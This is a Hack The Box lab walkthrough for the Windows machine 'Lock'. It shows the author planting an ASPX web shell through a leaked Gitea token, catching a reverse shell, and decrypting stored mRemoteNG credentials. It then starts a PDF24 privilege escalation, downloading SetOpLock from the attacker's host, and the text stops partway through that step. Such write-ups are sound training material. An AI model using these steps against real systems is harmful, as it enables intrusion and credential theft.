# HTB: Lock


| Field | Details |
| - | - |
| Platform | [Hack The Box](https://app.hackthebox.com/machines/Lock) |
| Difficulty | Easy |
| OS | Windows |
| Author | ByteFragment |
| Date | November 23rd 2026 |


## Enumeration

### NMAP

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.46.255 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan:

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Lock - Index
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds?
3000/tcp open  http          Golang net/http server
|_http-title: Gitea: Git with a cup of tea
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=d144884271f434e1; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=R-EprjYx9q7K7nmGZRGROz3bimI6MTc5NTQ4OTQyNjA4NjU5MjUwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Tue, 24 Nov 2026 03:03:47 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=2d3f3e260e3f7fff; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=7-FjSAbG9pQ1_wAiLZNAwg86t246MTc5NTQ4OTQyNzYxMzIyNjEwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Tue, 24 Nov 2026 03:03:47 GMT
|_    Content-Length: 0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Lock
| Not valid before: 2026-11-23T02:51:01
|_Not valid after:  2027-05-25T02:51:01
| rdp-ntlm-info: 
|   Target_Name: LOCK
|   NetBIOS_Domain_Name: LOCK
|   NetBIOS_Computer_Name: LOCK
|   DNS_Domain_Name: Lock
|   DNS_Computer_Name: Lock
|   Product_Version: 10.0.20348
|_  System_Time: 2026-11-24T03:04:10+00:00
|_ssl-date: 2026-11-24T03:04:29+00:00; 0s from scanner time.
```

From the NMAP scan we can see that the target machine is running an `HTTP` server on port 80, an SMB server on port 445, a `Golang net/http server` on port 3000 serving a self hosted git repo, and a `Remote Desktop Protocol Server` on port 3389. Let's add `lock.vl` to our /etc/hosts file and visit the URL in FireFox

### Web Recon


Visiting the web page we see it is for a Document Solutions company but upon further enumeration provides nothing of immediate note.

Let's visit `lock.vl:3000`:



Loading the page we can see that it's the stock page for the `Gitea` service running version `1.21.3` so let's make a note of that.

### GoBuster

We will be using [GoBuster](https://www.kali.org/tools/gobuster/) to enumerate potential directories on the target pages. the Document Solutions page does not return any results so we will focus on the Gitea service page.

```
┌──(kali㉿kali)-[~/labs_htb/Lock]
└─$ sudo gobuster dir -u http://lock.vl:3000/ -w /usr/share/wordlists/dirb/big.txt -t 25                                                     
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://lock.vl:3000/
[+] Method:                  GET
[+] Threads:                 25
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
admin                (Status: 303) [Size: 38] [--> /user/login]
administrator        (Status: 200) [Size: 16426]
explore              (Status: 303) [Size: 41] [--> /explore/repos]
favicon.ico          (Status: 301) [Size: 58] [--> /assets/img/favicon.png]
issues               (Status: 303) [Size: 38] [--> /user/login]
milestones           (Status: 303) [Size: 38] [--> /user/login]
notifications        (Status: 303) [Size: 38] [--> /user/login]
sitemap.xml          (Status: 200) [Size: 279]
v2                   (Status: 401) [Size: 50]
Progress: 20469 / 20469 (100.00%)
===============================================================
Finished
===============================================================
```

GoBuster reveals some new directories for us to explore, the `/explore/repos` directory looks interesting so that's where we will start.

### Gitea Enumeration



There's only a single directory available to us, `dev-scripts` from user `ellen.freeman`. Looking at the most recent commit for the `repos.py` file we can see that the previous commit had an `Access Token` hard coded into the `repos.py` script and this commit moved it to a local environment variable:



Let's make note of the Access Token before we explore the `/explore/users` tab:



This contains two usernames, `ellen.freeman` and `Administrator` so let's add those to a users.txt file on our attack machine.

On the bottom right of the page we see an `API` link:



This takes us to the documentation for the `Gitea API` where we see an `Authorize` button:



Here we can authorize using the access token we obtained from the `repos.py` file:



## Foot Hold

Once Authenticated we can use the `/user/repos` API to retrieve the list of repos owned by `ellen.freeman` :

```
┌──(kali㉿kali)-[~/labs_htb/Lock]
└─$ curl -X 'GET' \
  'http://lock.vl:3000/api/v1/user/repos?access_token=<REDACTED>' \
  -H 'accept: application/json' | jq
  % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current
                                 Dload  Upload  Total   Spent   Left   Speed
100   4140   0   4140   0      0  21803      0                              0
[
 --- SNIP ---

    "name": "website",
    "full_name": "ellen.freeman/website",
    "description": "",
    "empty": false,
    "private": true,
    "fork": false,
    "template": false,
    "parent": null,
    "mirror": false,
    "size": 7370,
    "language": "CSS",
    "languages_url": "http://localhost:3000/api/v1/repos/ellen.freeman/website/languages",
    "html_url": "http://localhost:3000/ellen.freeman/website",
    "url": "http://localhost:3000/api/v1/repos/ellen.freeman/website",
    "link": "",
    "ssh_url": "ellen.freeman@localhost:ellen.freeman/website.git",
    "clone_url": "http://localhost:3000/ellen.freeman/website.git",

--- SNIP ---
]
```

This reveals another repo that we did not have access to before named `website` so next we need to try and clone the repo. After some searching I found we can clone the repo onto our attack machine using the [access token](https://stackoverflow.com/questions/42148841/github-clone-with-oauth-access-token) like so:

```
git clone http://<REDACTED>@lock.vl:3000/ellen.freeman/website.git
```

Listing the contents of the repo we find that it contains the files for the `Document Solutions` wep page from earlier. Since we now have the ability to push to the repo we can abuse this ability to include a web shell. Using [Whatweb](https://www.kali.org/tools/whatweb/) we can see that the HTTP server is powered by `ASP.net` so we will need to use a `.aspx` web shell:

```
┌──(kali㉿kali)-[~/labs_htb/Lock]
└─$ whatweb http://lock.vl                                                              
http://lock.vl [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.234.64], Lightbox, Microsoft-IIS[10.0], Script, Title[Lock - Index], X-Powered-By[ASP.NET]
```

Kali comes preloaded with some web shells and we can find a `.aspx` shell at `/usr/share/webshells/aspx/cmdasp.aspx`. After copying it into the `website` repo directory on our target machine we can `git add -> commit -> push`:

```
┌──(kali㉿kali)-[~/labs_htb/Lock/website]
└─$ cp /usr/share/webshells/aspx/cmdasp.aspx shell.aspx

┌──(kali㉿kali)-[~/labs_htb/Lock/website]
└─$ git add shell.aspx           
                                                                        
┌──(kali㉿kali)-[~/labs_htb/Lock/website]
└─$ git commit -m "Not Malicious"                                       
[main 70bbd34] Not Malicious
 Committer: kali <kali@kali.kali>
Your name and email address were configured automatically based
on your username and hostname. Please check that they are accurate.
You can suppress this message by setting them explicitly. Run the
following command and follow the instructions in your editor to edit
your configuration file:

    git config --global --edit

After doing this, you may fix the identity used for this commit with:

    git commit --amend --reset-author

 1 file changed, 42 insertions(+)
 create mode 100644 shell.aspx
                                                                            
┌──(kali㉿kali)-[~/labs_htb/Lock/website]
└─$ git push                     
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 8 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 984 bytes | 984.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0 (from 0)
remote: . Processing 1 references
remote: Processed 1 references in total
To http://lock.vl:3000/ellen.freeman/website.git
   73cdcc1..70bbd34  main -> main
                                      
```

Visiting the url `http://lock.vl/shell.aspx` we find we have a working web shell that we can use to run OS commands on the target machine.



Let's use this to gain a reverse shell using this payload from [revshells](http://www.revshells.com/):



After setting up the listener we can paste the payload into the Command box and hit execute:

```
┌──(kali㉿kali)-[~/labs_htb/Lock]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.15.249] from (UNKNOWN) [10.129.234.64] 53935
whoami
lock\ellen.freeman
PS C:\windows\system32\inetsrv> hostname
Lock
PS C:\windows\system32\inetsrv> 
```

Our NetCat listener successfully receives the connection giving us a working reverse shell! `C:\Users` directory : `gale.dekarios`

## Lateral Movement

While there is nothing in `ellen.freeman`'s Documents folder does contain a `config.xml`:

```
PS C:\Users\ellen.freeman\Documents> ls


    Directory: C:\Users\ellen.freeman\Documents


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----        12/28/2023   5:59 AM           3341 config.xml  
```

Printing the contents of the file we see it contains credentials for `gale.dekarios`:

```
PS C:\Users\ellen.freeman\Documents> type config.xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="sDkrKn0JrG4oAL4GW8BctmMNAJfcdu/ahPSQn3W5DPC3vPRiNwfo7OH11trVPbhwpy+1FnqfcPQZ3olLRy+DhDFp" ConfVersion="2.6">
    <Node Name="RDP/Gale" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="a179606a-a854-48a6-9baa-491d8eb3bddc" Username="Gale.Dekarios" Domain="" Password="<REDACTED>"
```

The password is stored encrypted so we will need to use this [decryption script](https://github.com/kmahyyg/mremoteng-decrypt) to decrypt it. After copying the contents of the XML file to our target machine we can clone the repo and decrypt the password:

```
┌──(kali㉿kali)-[~/labs_htb/Lock]
└─$ vim config.xml
                                                                                                                                                 
┌──(kali㉿kali)-[~/labs_htb/Lock]
└─$ git clone https://github.com/kmahyyg/mremoteng-decrypt.git                             
Cloning into 'mremoteng-decrypt'...
remote: Enumerating objects: 58, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 58 (delta 3), reused 6 (delta 2), pack-reused 48 (from 1)
Receiving objects: 100% (58/58), 28.04 KiB | 3.50 MiB/s, done.
Resolving deltas: 100% (11/11), done.

┌──(kali㉿kali)-[~/labs_htb/Lock/mremoteng-decrypt]
└─$ python3 mremoteng_decrypt.py -rf ../config.xml 
Username: Gale.Dekarios
Hostname: Lock
Password: <REDACTED> 
```

With our new credentials we can use `xfreerdp3` to remotely access the target machine:

```
┌──(kali㉿kali)-[~/labs_htb/Lock/mremoteng-decrypt]
└─$ xfreerdp3 /v:10.129.234.64 /u:'gale.dekarios' /p:"<REDACTED>" 
```

The user.txt flag can be found in the Desktop directory:



## Privilege Escalation

Notice the executables on the Desktop include the `mRemoteNG` ,which we already knew about, but also `PDF24`. Doing a quick search for `PDF24 Vulnerabilities` we find that `PDF24 Creator 11.14.0` contains a privilege escalation vulnerability described in [NIST - CVE-2023-49147](https://nvd.nist.gov/vuln/detail/cve-2023-49147).

Let's see what version the target machine is running:



Running the `PDF24 Launcher` and going to the `About PDF24 Creator` on the bottom of the launcher we see that the target machine is running version `11.15.1`. Going back to the NIST page we see that although the vulnerability was discovered in version 11.14.0 the `Known Affected Software Configurations` section towards the bottom of the page indicates that versions `Up to(excluding) 11.15.2` are vulnerable:



Further searching reveals this incredibly useful github page from [galletitaconpate](https://github.com/galletitaconpate/verified-exploits/tree/main/PDF24%20Creator/LPE%20-%20CVE-2023-49147) which details how to exploit this vulnerability.

We first need to download the `symboliclink-testing-tools` from `googleprojectzero` which can be found [here](https://github.com/googleprojectzero/symboliclink-testing-tools/releases/tag/v1.0). Once downloaded we can create a directory, change into it, and then unzip the `.7z` file using the command:

```
7z x Release.7z
```

We are going to be using the `SetOpLock.exe` executable so let's transfer it to the machine by first setting up a python web server in the same directory as the `SetOpLock.exe` file:

```
python3 -m http.server 80
```

Then we can open up a powershell terminal in our target machine RDP session and download the file using:

```
iwr http://10.10.15.249/SetOpLock.exe -Outfile SetOpLock.exe
```

Now we can move on to step 2 where we arm the oplock by running this command on the targt machine:

```
./SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" -r
```

We will then need to trigger the repair which spawns a helper window that is running as `SYSTEM`. We do this by running `msiexe.exe /fa` agains the `pdf24-creator-11.15.1-x64.msi` which is located in the `C:\_install` directory:



After some loading it will prompt us to close the applications and we will select `OK` and then `OK` again.

The `pdf24-PrinterInstall.exe` window will then freeze:

